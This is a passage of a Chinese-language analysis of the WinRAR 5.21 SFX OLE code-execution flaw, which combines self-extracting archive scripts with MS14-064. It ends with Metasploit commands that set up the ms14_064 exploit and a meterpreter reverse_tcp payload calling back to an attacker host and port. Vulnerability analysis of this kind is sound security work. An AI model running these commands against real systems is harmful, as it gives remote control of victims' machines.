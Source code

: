 # WinRAR(5.21)-0day漏洞-始末分析

0x00 前言
=====

上月底，WinRAR 5.21被曝出代码执行漏洞,Vulnerability Lab将此漏洞评为高危级，危险系数定为9(满分为10)，与此同时安全研究人员Mohammad Reza Espargham发布了PoC，实现了用户打开SFX文件时隐蔽执行攻击代码，但是WinRAR官方RARLabs认为该功能是软件安装必备，没有必要发布任何修复补丁或升级版本。

本以为就此可以跳过该漏洞，但深入研究后发现了更加有趣的事情。

![这里写图片描述](http://drops.javaweb.org/uploads/images/9c2ec5faf90c438c6cf44aa6dd18c58cc8e53395.jpg)

0x01 WinRar 5.21 - SFX OLE 代码执行漏洞
=====

简要介绍一下WinRar 5.21 - SFX OLE 代码执行漏洞

1、相关概念
------

**SFX：**SelF-eXtracting的缩写，中文翻译自解压文件，是压缩文件的一种，其可以在没有安装压缩软件的情况下执行解压缩

**MS14-064：**Microsoft Windows OLE远程代码执行漏洞，影响Win95+IE3 – Win10+IE11全版本，实际使用时在win7以上系统由于IE存在沙箱机制，启动白名单以外的进程会弹出提示，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/60aee3b9f0a14328e28461ad54c64cf4cbc4816f.jpg)

2、漏洞原理
------

sfx文件在创建时支持添加html脚本，但又不会受IE沙箱限制，如果主机存在MS14-064漏洞，在打开包含MS14-064 exp的sfx文件后，即可隐蔽执行任意代码

3、测试环境
------

```
win7 x86
存在MS14-064漏洞
安装WinRar 5.21

```

4、测试过程
------

实现相对简单，因此只作简要介绍

**（1）**搭建server

```
use exploit/windows/browser/ms14_064_ole_code_execution
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.40.131
set LPORT 1234
exploit

```

